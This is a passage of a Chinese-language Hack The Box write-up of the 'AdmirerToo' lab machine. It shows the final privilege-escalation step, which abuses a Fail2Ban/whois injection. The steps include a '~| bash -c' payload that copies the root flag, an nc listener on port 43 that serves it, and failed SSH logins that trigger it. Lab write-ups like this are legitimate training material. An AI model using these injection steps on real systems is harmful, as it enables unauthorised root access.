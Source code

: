 在 Kali 上创建一个有效负载，我们希望将它注入到电子邮件中，并在机器上执行。我本来可以使用反向 shell，但是为了简单起见，我只是复制了根标志:

```
┌──(root💀kali)-[~/htb/admirertoo]
└─# cat flag_copy.txt
~| bash -c "cp /root/root.txt /tmp/root.txt && chmod 777 /tmp/root.txt" &
```

请注意，我要执行的代码以~|开头，它在 Fail2Ban 漏洞利用中被标识为注入方式。现在，在本地端口 43 上启动 nc 侦听，这是 whois 将与我们对话的内容:

```
┌──(root💀kali)-[~/htb/admirertoo]
└─# nc -nvlkp 43 -c "cat /root/htb/admirertoo/flag_copy.txt"
listening on [any] 43 ...
```

# 根标志

现在，登录 SSH 失败三次，导致 Fail2Ban 发送电子邮件，该电子邮件将使用 whois 查找我们的 IP，由于我们丢弃了 whois.conf 文件，该电子邮件将被重定向到我们等待的 nc 侦听器，这又将发送回包含我们 cp 的文本文件:

```
┌──(root💀kali)-[~/htb/admirertoo]
└─# ssh -L 1234:127.0.0.1:8080 jennifer@admirer-gallery.htb
jennifer@admirer-gallery.htbs password: 
Permission denied, please try again.
jennifer@admirer-gallery.htbs password: 
Permission denied, please try again.
jennifer@admirer-gallery.htbs password: 
jennifer@admirer-gallery.htb: Permission denied (publickey,password).
```

现在，作为 Jennifer，我们终于可以访问/tmp 文件夹中的根标志了:

```
jennifer@admirertoo:~$ cat /tmp/root.txt 
e3eeb41b4e22ad1ca6419cf2501b2ab2
```

完成了。下次见。

如果你喜欢这篇文章，请给我一两个掌声(这是免费的！)

推特—[https://twitter.com/pencer_io](https://twitter.com/pencer_io)
网站— [https://pencer.io](https://pencer.io/)

*原载于 2022 年 6 月 12 日*[*https://pencer . io*](https://pencer.io/ctf/ctf-htb-admirertoo)*。*